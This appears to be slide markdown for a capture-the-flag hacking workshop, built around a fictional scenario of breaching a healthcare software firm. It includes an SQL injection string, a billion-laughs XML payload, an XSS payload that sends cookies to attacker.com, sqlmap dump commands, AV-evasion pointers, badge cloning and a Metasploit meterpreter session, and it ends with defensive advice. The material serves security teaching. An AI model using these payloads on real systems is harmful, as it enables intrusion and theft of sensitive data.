


## Welcome !

---

### Kali Linux

Kali Linux is a Debian-derived Linux distribution designed for digital forensics and pentests.

It is loaded with more than 600 pentest programs, for instance:
 * nmap, a port scanner
 * wireshark, a network packet analyzer
 * John the ripper, a password cracker
 * Aircrack-ng, a wifi pentester

---

Change the keyboard layout to french layout:
```shell
setxbkmap fr
```

Install docker:
```shell
curl -fsSL http://<the server ip>/install/docker.sh | sh
```

---

### Hacking

Hacking is an __unauthorized intrusion__ into a computer or an information system. The malicious hacker may alter system or security features to accomplish a goal that differs from the original purpose of the system.

### Ethical hacking

Ethical hacking refers to the act of locating weaknesses and vulnerabilities of computer and information systems by duplicating the actions of malicious hackers.

---

### Penetration testing

Penetration Testing (pentest) is designed to find the maxium of vulnerabilities. The tester attempts to exploit the vulnerabilities to ensure they are not false positives.

### Red team testing

Red team testing is similar to a pentest in many ways but is more targeted. Red team tests are testing the organization capabilities. The red team will try to get in and access sensitive information in any way possible, as quietly as possible.

---

### Common web application vulnerabilities

----

#### Injection

When we use user-supplied data in a query, command, interpreter, etc.

Vulnerabilities:

```java
String query = "SELECT * FROM accounts WHERE custID='"
    + request.getParameter("id") + "'";

Query HQLQuery = session.createQuery("FROM accounts WHERE custID='"
    + request.getParameter("id") + "'");
```

Attack:
> http://example.com/app/accountView?id='or '1'='1

----

#### Broken Authentication

When we don't correctly implement authentication flow (technically and/or functionnaly).

Vulnerabilities:
 * Permits brute force, credential stuffing.
 * Permits default, well-known passwords: 'admin/admin', 'admin/admin123', etc.
 * Uses weak credential recovery/forgotten-password processes.

----

#### XML External Entities

When we accept XML input or XML uploads or we use user-supplied data in XML.

Attacks:
 * The attacker attempts a denial-of-service attack with a billion laughs attack:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

----

#### Broken Access Control

When we don't check that a user has the privileges and control to access the requested data.

Attacks:
 * The attacker change the account URL in his/her browser to access the account of someone else:
> http://myawesomeapp.net/account/234/edit
> http://myawesomeapp.net/account/356/edit

----

#### Cross-Site Scripting

When we forget to escape an untrusted source of data.

Attacks:
 * The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```java
(String) page += "<input name='creditcard' type='TEXT' value='"
    + request.getParameter("CC") + "'>";
```

 The attacker modifies the ‘CC’ parameter in the browser to:

 ```javascript
 "><script>document.location="
    + "'http://www.attacker.com/cgi-bin/cookie.cgi"
    + "? foo='+document.cookie</script>"
 ```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

----

More information about web application vulnerabilities with [OWASP TOP 10](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf).

----

#### CVE

A CVE is a common name for a single security vulnerability so that we can identify and talk about issues sanely (e.g. "that OpenSSL vulnerability, from like 2009, the DoS one" vs. "CVE-2009-3555"). CVE allows multiple vendors, products, and customers to properly track security vulnerabilities and make sure they are dealt with.

ex: [CVE-2017-1653](https://duckduckgo.com/?q=CVE-2017-1653)

---

### The scenario

Your new client is a __brand new healthcare software editor__ and it wants to comprise its well-etablished competitor: `Medical Software`. Your client asks two different teams to do the "dirty work".

Both teams already tried a lot of remote attacks to gain access to the corporate network but everything failed, you decided to change your strategy.

----

You made a fake profile on a famous professional social network.

----



----

You discovered that a lot of Medical Software employees are sharing `Juice Shop` pages and promotions over the social network, you think it could be a good vector of attack.

---

### CTFd

To track the team progresses, your client set up a CTFd server, it is a Capture The Flag framework.

---

### Automated attacks

`nikto` is a web server scanner.

```
# update the database
nikto -update

# run the scan
nikto -host http://localhost:3000
```

`sqlmap` is an automatic SQL injection tool.

```
# extract critical information about the database
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=5 --risk=3

# list the tables
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=3 --risk=3 --tables --dbms=SQLite

# dump the Users table
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=5 --risk=3 --dump -T Users --dbms=SQLite
```

---

### AYBABTU

The `juice shop` hack is successful, you discover where employees live based on `juice shop` database and you can guess which bus they use to commute.

----



----

### Your stuff

To gain access to the `Medical Software` facilities:
 * PN532 (13.56MHz,HF access badges)
 * Proxmark (13.56MHz,HF access badges / 125KHz,LF access badges)
 * HackRF One (Remotes, cars, parkings, VHF)

---

### Congrat's

You now have a `Medical Software` access badge clone in your hands.

Soon you will penetrate in the facilities and install a backdoor in the company network.

But for now you are going to prepare your malware and infection devices.

---

### Metasploit

*Metasploit is the most used pentest __framework__.*

Provides rich and full-featured __payloads__.

Has a large community with tons of scripts.

But one drawback, it has signature and __easy__ to detect.

Easy to detect using basic framework, but hard when using AV Evasion technics.

----

### Payload

In the world of malware, the term payload is used to describe what a virus, worm or Trojan is designed to do on a victim’s computer.

----

### Payloads

In metasploit you have 3 payload kinds:
 * Single payloads
 * Stagers payloads
 * Stages payloads

----

### Singles payloads

Singles are payloads that are __self-contained__ and completely __standalone__. A Single payload can be something as simple as adding a user to the target system or running `calc.exe`.

These kinds of payloads are self-contained, so they can be caught with __non-metasploit__ handlers such as netcat.

----

### Stagers payloads

Stagers setup a __network connection__ between the __attacker__ and __victim__ and are designed to be __small__ and __reliable__. It is difficult to always do both of these well so the result is multiple similar stagers. Metasploit will use the best one when it can and __fall back__ to a less-preferred one when necessary.

----

### Stages payloads

Stages are payload components that are __downloaded by Stagers module__. The various payload stages provide __advanced features__ with no size limits such as __Meterpreter__, VNC Injection, and the iPhone ‘ipwn’ Shell.

----

### AV Evasion

AV Evasion Frameworks:

 * [VEIL (Shellcode injection)](https://www.veil-framework.com/)
 * [Shellter (Windows only / Payload embedding / Stealth)](https://www.shellterproject.com/)

Third-party libraries:

 * Search: "github av evasion" / "github shellcode injection"
 * Use recent repositories (< 1 year old)

---

Install shellter:
```shell
curl -fsSL http://<the server ip>/install/shellter.sh | sh
```

---

### USB Infection

USB Rubber Ducky (large scale hacking):

 * Keystroke injection
 * Data exfiltration
 * Static behavior
 * __Fast and discrete__

USB Bash Bunny (elaborated attacks):

 * Keystroke injection
 * Data exfiltration
 * MITM Network trusted device
 * Slower and bigger than ducky
 * __OS Detection__
 * __Variable/Adaptative behavior__

[differences between rubber ducky and bash bunny](https://forums.hak5.org/topic/40210-what-is-difference-of-rubber-ducky/)

---

You successfully infected two computers with the bash bunny that sent you an email with public ip adresses of __metasploit__ infected computers.

---

### MAILBOX ALERT

You have two new mails:

> Computer: DPBRAZOWSKI
> IP: 172.20.10.6
> PORT: 4001

> Computer: DPALEVESQUE
> IP: 172.20.10.7
> PORT: 4001

----

Try to find something in that can be valuable:

 * sensitive files
 * compromising files
 * screen/camera captures
 * audio from important meetings

----

### Connect to the victim

```bash
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler)> set PAYLOAD windows/meterpreter/bind_tcp
msf exploit(handler)> set RHOST 172.20.10.7
msf exploit(handler)> set LPORT 4001
msf exploit(handler)> exploit
meterpreter> help
```

---

### Job is done

You have extracted the source code of `Medical Software` main product and discover a vulnerability in the application.

Moreover you also get credentials to connect to every `Medical Software` client network.

You report your discoveries and take the money.

----

Your client start an agressive marketing campaign based on new ergonomics, modernity and __security__.

Six months later they post tons of ultra-sentive data on a russian hacking forum:
 * social security numbers
 * addresses
 * healthcare documents
 * etc.

`Medical Software` filed for bankruptcy in less than a year.

---

## To trust or not to trust

----

> Can I trust that value and use it to build a SQL request?

No you can't!

Never build a SQL request dynamically, always use named parameters instead.

```java
// Don't
Query unsafeHQLQuery = session.createQuery("from Inventory where productID='"+userSuppliedParameter+"'");

// Do
Query safeHQLQuery = session.createQuery("from Inventory where productID=:productid");
safeHQLQuery.setParameter("productid", userSuppliedParameter);
```

[SQL Injection Prevention Cheat Sheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet)

----

> Can I trust that value and display its content in the html document?

No you can't!

Always sanitize and escape the value before displaying it. Check the possibilities of your frameworks (`ngSanitize`, `DomSanitizer`, `OWASP ESAPI`, etc.).

[XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)

----

> Can I trust my user and respond the document he/she is requesting?

No you can't!

Always check that the user is authorized to access the document.

----

> Can I trust that USB key I found in the parking lot earlier and plug it in my computer?

No you can't!

Don't plug an USB key you don't know. One tip to prevent USB infection is to lock your screen before pluging the USB key.
